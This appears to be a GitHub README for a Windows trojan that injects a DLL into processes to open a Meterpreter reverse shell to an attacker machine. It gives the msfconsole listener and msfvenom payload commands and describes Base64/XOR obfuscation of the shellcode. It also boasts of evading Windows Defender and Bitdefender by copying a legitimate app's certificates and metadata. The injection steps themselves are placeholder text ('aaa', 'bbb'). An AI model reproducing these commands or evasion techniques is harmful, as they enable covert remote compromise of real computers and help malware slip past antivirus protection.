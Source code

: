 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

<img align="right" src="media/a1.png" width="440" />

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we encode the binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
  
- Secondly we apply XOR encryption using a single-byte key;
  
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it decodes the base64 encoded data and uploads it to memory. Once uploaded, the data holding the shellcode will start the reverse shell with the attacker machine.  

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- aaa
- bbb
- ccc

### 3) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- aaa 
- bbb
- ccc


# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both coes are undetected by Windows defender, but the local injection is detected by 10 antiviruses. Using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 100mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.


<img align="left" src="media/av4.png" width="440" />

